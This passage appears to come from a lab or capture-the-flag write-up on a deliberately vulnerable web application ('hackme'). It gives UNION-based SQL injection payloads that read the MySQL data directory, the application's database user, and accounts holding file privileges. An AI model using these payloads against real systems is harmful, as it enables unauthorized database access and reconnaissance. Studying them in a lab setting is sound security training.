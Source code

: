 ```bash
' and 1=2 union select @@datadir,2,3 #
```

![](/assets/images/hackme/screenshot-9.png)

Retrieving the user that the web application is using to connect to the database.

```bash
' and 1=2 union select user(),2,3 #
```

![](/assets/images/hackme/screenshot-10.png)


Retrieving users with file privileges enabled.

```bash
' and 1=2 union select user,2,3 from mysql.user where file_priv='Y' #
```
